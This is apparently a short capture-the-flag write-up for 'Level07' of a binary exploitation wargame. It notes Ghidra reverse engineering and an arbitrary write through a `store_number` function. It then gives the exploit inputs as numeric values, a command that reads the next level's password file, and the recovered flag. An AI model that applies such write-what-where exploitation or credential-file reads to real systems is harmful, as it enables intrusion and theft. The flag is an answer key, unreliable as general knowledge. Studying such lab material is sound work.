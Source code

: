 ## Level07
## Source code
![level07_1.png](level07_1.png)
![level07_2.png](level07_2.png)
## Walkthrough
- We RE the executable with Ghidra.
- We can write wherever we want through the `store_number` function.
## Answer
	exec find_offset to get offset

	store
	4159090384
	1073741938

	store
	4160264172
	116

	quit

	cat /home/users/level08/.pass
## Flag
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC